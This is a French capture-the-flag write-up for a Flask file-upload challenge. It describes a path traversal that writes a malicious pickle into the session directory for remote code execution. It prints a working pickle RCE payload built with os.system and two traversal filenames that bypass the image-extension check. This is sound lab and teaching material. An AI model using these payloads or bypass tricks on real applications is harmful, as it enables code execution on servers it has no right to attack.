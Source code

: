 Futur Upload 
===========================

Enoncé
----------

Cloud storage is back in 2077, better UI and folders management !

Résolution
-------------

Avec le code source, on peut voir qu'il y a une path traversal dans l'upload de fichier.

Cependant accès uniquement a /app/user_files/ et /app/flask_session/

Toutes les autres méthodes semblent correctement protégé

Si on arrive a upload un fichier sérialisé avec python pickle dans /app/flask_session/MD5HASH, on peut obtenir la RCE.

Problème 1 : Nous n'avons pas la SESSION_KEY_PREFIX qui permet de créer le hash MD5HASH
Problème 2 : Nous sommes obligé d'upload le fichier avec .png ou .jpg

On a bien vérifier que si on upload un fichier avec le hash, les données sérialisé alors il s'execute si on envoie le bon jeton de session, mais nous sommes bloqués par le deux problèmes

.. code-block:: python

    import pickle
    import base64
    import os

    # Objet malveillant qui appelle os.system pour exécuter une commande
    class RCE:
        def __reduce__(self):
            return (os.system, ('echo "test" > /app/user_files/df214423-da5a-41d8-b862-507f95d7dce8/test.txt',))

    # Création d'un payload pickle malveillant
    payload = pickle.dumps({'_permanent': False, 'user_id': 'admin', 'data': RCE()})

    # Ajout des 4 premiers bytes à 0 pour signaler que c'est un pickle
    payload_with_magic_header = b'\x00\x00\x00\x00' + payload

    # Encodage en base64 pour l'injecter dans un cookie ou dans un fichier de session
    encoded_payload = base64.b64encode(payload_with_magic_header)

    # Affichage du payload encodé en base64
    print("Payload encodé en base64 avec 4 bytes 0 :")
    print(encoded_payload.decode('utf-8'))


On n'a pas réussi a allez plus loin.

On a demandé à la fin du CTF : 

Créer un directory "data:image," dedans, créer un autre directory "png;base64,""

ensuite upload un objet pickle nommé 

.. code-block:: console
    
    test/../../../../../../app/flask_session/2029240f6d1128be89ddc32729463129

Ce qui donne un upload vers : 

.. code-block:: console
    
    data:image/png;base64,test/../../../../../../app/flask_session/2029240f6d1128be89ddc32729463129

Pour path traversal et aller écrire le fichier 2029240f6d1128be89ddc32729463129 qui change jamais de nom pour les app flask_session et est désérialisé a chaque requête

OU : 

Créer les dossiers http:, a.fr, a.jpg# et ensuite tu peux upload ce que tu veux où tu veux car mimetype va utiliser filename=  "http:/a.fr/a.jpg#/../../chemin/fichier"  car le check comprend et accepte les urls

Il nous manquer le data:image et png;base64 qui permettait de bypass le .png
Ou le http://a.fr/a.jpg#/../../../

Et ensuite on utilise le 2029240f6d1128be89ddc32729463129 qui est déjà présent plutôt que de tenter de recalculer le hash a cause de la clé session_key_prefix
